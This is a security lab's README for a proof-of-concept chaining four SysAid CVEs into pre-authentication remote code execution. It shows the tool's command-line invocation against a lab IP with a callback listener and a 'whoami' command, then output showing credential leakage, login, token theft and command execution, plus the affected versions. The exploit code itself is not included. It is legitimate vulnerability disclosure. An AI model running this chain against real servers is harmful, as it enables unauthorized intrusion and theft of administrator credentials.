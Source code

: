 # SysAid PreAuth RCE Chain PoC

PoC for SysAid PreAuth RCE Chain (CVE-2025-2775, CVE-2025-2776, CVE-2025-2777, CVE-2025-2778)
 
 See our [blog post](https://labs.watchtowr.com/) for technical details
 


https://github.com/user-attachments/assets/03245fab-915d-43b6-8e91-f0a18251af49



# PoC in Action


```

python watchTowr-vs-SysAid-PreAuth-RCE-Chain.py -t http://192.168.201.217:8080/ -l 192.168.201.1 -c "whoami"

                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        watchTowr-vs-SysAid-PreAuth-RCE-Chain.py

        (*) SysAid Pre-Auth RCE Chain

          - Sina Kheirkhah (@SinSinology) and Jake Knott of watchTowr (@watchTowrcyber)

        CVEs: [CVE-2025-2775, CVE-2025-2776, CVE-2025-2777, CVE-2025-2778]

[+] Starting HTTP server on port 80
[*] Leaking creds...
[+] Leaked credentials: admin:Aa123456
[+] Successfully logged in
[+] Extracted token
[*] Poisoning with commands
[+] Commands executed successfully
[*] Done


```

# Affected Versions

The following versions are vulnerable to this pre-auth RCE chain: `<= 23.3.40`, vendor release note can be found [here](https://documentation.sysaid.com/docs/24-40-60)



# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber

